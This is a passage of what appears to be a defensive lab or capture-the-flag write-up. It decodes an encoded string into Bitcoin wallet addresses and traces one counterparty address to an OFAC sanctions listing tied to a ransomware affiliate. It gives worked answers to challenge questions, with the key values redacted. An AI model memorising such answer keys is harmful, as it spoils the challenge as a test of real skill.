

Magic flagged a `From Hex` → `From Base64` → `From Base64` chain as the best match. Loaded that exact recipe manually to confirm:


- `From Hex` converts the hex-encoded string back into raw bytes, which turns out to be a base64 string
- `From Base64` (first pass) decodes that into another base64 string
- `From Base64` (second pass) decodes that into the final plaintext

Output:

```
—REDACTED—
```

That's two Bitcoin wallet addresses concatenated back-to-back — both `bc1q`-prefixed, which per the common address type reference, is the Native SegWit (Bech32) format.



Splitting the concatenated string on the repeating `bc1q...` pattern gives the wallet address:

**Answer:** `—REDACTED—`

## Attributing the Wallet

### Question 6 — The wallet address used has been involved in transactions between wallets belonging to which threat group?

Looked up the address on a blockchain explorer.



The address had transacted 8 times, with a mix of incoming and outgoing transfers totalling over 15 BTC each way.



Searching the wallet address itself on Google turned up nothing useful, so instead searched the counterparty addresses from the transaction list individually. One of them — `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM` — returned a hit on the U.S. Treasury's Office of Foreign Assets Control (OFAC) site.



Opened the OFAC page and found the address listed under a Specially Designated National: Ivan Gennadievich Kondratiev, with a long list of aliases (`BASSTERLORD`, `FISHEYE`, `SINNER6546`, and others) and multiple associated digital currency addresses.



The designation itself links back to the February 2024 press release "United States Sanctions Affiliates of Russia-Based —REDACTED— Ransomware Group" — Kondratiev being sanctioned specifically as a —REDACTED—-affiliated actor.

**Answer:** `—REDACTED—`